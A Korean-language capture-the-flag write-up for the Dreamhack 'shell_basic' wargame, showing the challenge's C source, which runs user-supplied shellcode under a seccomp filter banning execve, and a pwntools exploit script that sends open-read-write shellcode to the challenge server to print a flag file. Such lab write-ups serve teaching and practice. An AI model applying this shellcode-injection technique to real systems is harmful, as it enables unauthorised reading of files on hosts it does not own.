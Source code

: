 # [Shell_basic](https://dreamhack.io/wargame/challenges/410/) 

 문제 파일의 코드는 다음과 같다. 

```C
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

## Exploit strategy

처음 문제를 보았을 때는 mmap이라는 생소한 함수가 있어서 굉장히 당황스러웠다.

공부를 해서 찾아보니 문제에 적힌 코드 
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);의 의미는 offset(마지막 argument 0)에서 시작해서 0x1000바이트만큼을 start주소(첫번째 argument NULL)로 맵핑한다는 의미다. PROT인자는 메모리 보호모드의 종류이다. 여기서 fd값은 -1이다. fd 값을 -1로 하여 mmap함수를 사용하는 것은 메모리를 할당하는 기술 중의 하나라고 한다. 

유심히 봐야할 코드는 

read(0, shellcode, 0x1000);

sc = (void *)shellcode; 이다.

표준입력을 통해 shellcode의 값을 입력받고 

이 값을 함수포인터에 type casting을 하여 대입하는 것이다. 
그렇다면 함수포인터에는 shellcode의 시작주소가 담기게 될 것이기때문에 sc를 호출하는 순간 셸코드를 실행시킬 수 있는 것이다.

이 문제를 풀기위해서는 문제에서 제시한 플래그 파일을 읽어서 플래그를 획득(출력)해야한다. 
즉 우리는 orw shellcode를 삽입한 exploit script를 작성하면 된다.

## Exploit script 

다음은 해당 문제에 대한 exploit script로, 파이썬 모듈 중 pwntools를 사용하여 작성하였다. 

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 매개변수는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',10732) 

#공격 대상 아키텍쳐는 x86-64
context.arch = 'amd64' 

#flag 위치와 이름
path = "/home/shell_basic/flag_name_is_loooooong"

#셸코드 선언
code = ''

#shellcraft를 이용하여 open system call의 셸코드를 사용.
code += shellcraft.open(path,0 ,0)

#shellcraft를 이용하여 read system call의 셸코드를 사용. 매개변수는 fd,buffer,count 순이다. 
#fd의 값으로 rax를 쓰는 이유는 open syscall의 반환 값이 rax에 저장되기 때문이다.
#주의해야할 점은 buffer 값으로 (rsp-count)가 아니라 rsp 값을 대입해야한다.
code += shellcraft.read('rax','rsp',0x1000)

#shellcraft를 이용하여 write system call의 셸코드를 사용. 매개변수는 fd,buffer,count 순이다. 
#fd 값으로 1(표준 출력), 나머지 인수는 read와 같음.
code += shellcraft.write(1,'rsp',0x1000)

#출력데이터 받아서 출력.
print(p.recv())

#작성한 셸코드를 기계어로 변환 후 전송
p.send(asm(code))

#플래그 형식은 DH{...}이므로 출력데이터를 '}'가 출력될 때까지 받아서 출력. 
print(p.recvuntil("}"))
```
